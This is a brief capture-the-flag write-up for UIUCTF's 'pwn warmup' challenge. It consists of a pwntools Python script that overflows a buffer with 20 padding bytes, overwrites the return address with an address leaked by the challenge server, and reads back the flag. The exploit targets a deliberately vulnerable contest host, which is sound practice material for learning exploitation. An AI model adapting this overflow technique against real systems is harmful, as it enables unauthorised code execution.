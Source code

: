 # pwn

## pwn warmup
> Solved by : thewhiteh4t


    #!/usr/bin/python3
    
    from pwn import *
    
    host = 'pwn-warmup.chal.uiuc.tf'
    port = 1337
    offset = 20
    addr = 0
    
    junk = b'A' * offset
    
    conn = remote(host, port)
    lines = conn.recvuntil('ad\n').decode().split('\n')
    addr = lines[2].split(' = ')[1].strip()
    addr = int(addr, 16)
    le_num = p64(addr)
    buffer = junk + le_num
    conn.sendline(buffer)
    flag = conn.recvuntil('}').decode()
    print(flag)
    


![](https://i.imgur.com/Usy3A7i.png)


